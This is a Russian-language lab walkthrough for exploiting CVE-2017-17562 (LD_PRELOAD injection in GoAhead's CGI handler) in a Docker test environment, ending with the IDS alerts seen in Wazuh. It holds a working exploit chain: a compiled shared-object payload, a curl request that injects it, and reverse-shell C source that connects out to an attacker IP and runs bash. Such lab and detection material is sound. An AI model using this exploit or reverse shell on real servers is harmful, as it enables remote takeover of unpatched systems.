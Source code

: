 # CVE-2017-17562

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2017-17562](https://nvd.nist.gov/vuln/detail/CVE-2017-17562)
* [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-17562](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-17562)
* [https://securityonline.info/cve-2017-17562-goahead-httpd-2-5-3-5-remote-code-execution-vulnerability/](https://securityonline.info/cve-2017-17562-goahead-httpd-2-5-3-5-remote-code-execution-vulnerability/)

GoAhead — это встраиваемый веб-сервер компании Embedthis, который используется в продуктах Oracle, IBM, HP и других известных производителей.

Embedthis GoAhead до версии 3.6.5 позволяет удаленно выполнить код, если включен CGI и CGI-программа динамически компонуется. Это происходит в результате инициализации окружения форк CGI-скриптов с помощью недоверенных параметров HTTP-запроса в функции cgiHandler в файле cgi.c. В сочетании с динамическим компоновщиком glibc такое поведение может быть использовано для удаленного выполнения кода с помощью специальных имен параметров, таких как LD\_PRELOAD. Злоумышленник может поместить полезную нагрузку разделяемого объекта в тело запроса и сослаться на него, используя /proc/self/fd/0.

### Эксплуатация уязвимости

> Контейнер с уязвимой средой находится в директории /home/user/Hackathon/vulhub-master/goahead/CVE-2017-17562

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:8080 будет доступна веб-страница, сигнализирующая об успешном старте сервера

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Для эксплуатации уязвимости скомпилируйте данный код в динамическую библиотеку

```cpp
#include <unistd.h>

static void before_main(void) __attribute__((constructor));

static void before_main(void)
{
    write(1, "Hello: World!\n", 14);
}
```

Для компиляции в x86/64 среде выполните команду:

```
gcc -shared -fPIC payload.c -o payload.so
```

Где payload.c - это файл с вышеупомянутым кодом

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Используйте утилиту curl, чтобы произвести атаку:

```
curl -X POST --data-binary @payload.so "http://ваш-ip:8080/cgi-bin/index?LD_PRELOAD=/proc/self/fd/0" -i 
```

В ответе мы можем видеть, что появился заголовок hello со значением World!, что свидетельствует об успешном выполнении кода

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Для получения обратной оболочки проведите те же манипуляции с данным кодом:

```cpp
#include<stdio.h>
#include<stdlib.h>
#include<sys/socket.h>
#include<netinet/in.h>

char *server_ip="***";
uint32_t server_port=7777;

static void reverse_shell(void) __attribute__((constructor));
static void reverse_shell(void) 
{
  int sock = socket(AF_INET, SOCK_STREAM, 0);
  struct sockaddr_in attacker_addr = {0};
  attacker_addr.sin_family = AF_INET;
  attacker_addr.sin_port = htons(server_port);
  attacker_addr.sin_addr.s_addr = inet_addr(server_ip);
  if(connect(sock, (struct sockaddr *)&attacker_addr,sizeof(attacker_addr))!=0)
    exit(0);
  dup2(sock, 0);
  dup2(sock, 1);
  dup2(sock, 2);
  execve("/bin/bash", 0, 0);
}
```

Где в переменную server\_ip впишите ip машины, на которую хотите получить оболочку

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

После отправки POST-запроса мы получаем обратную оболочку уязвимой машины

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

В Wazuh ([https://ваш-ip/app/wazuh](https://xn---ip-5cdj7k/app/wazuh)) мы можем увидеть соответствующие алерты от IDS Suricata о предположительно вредоносных запросах и о загрузке исполняемых файлов на уязвимый хост

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>
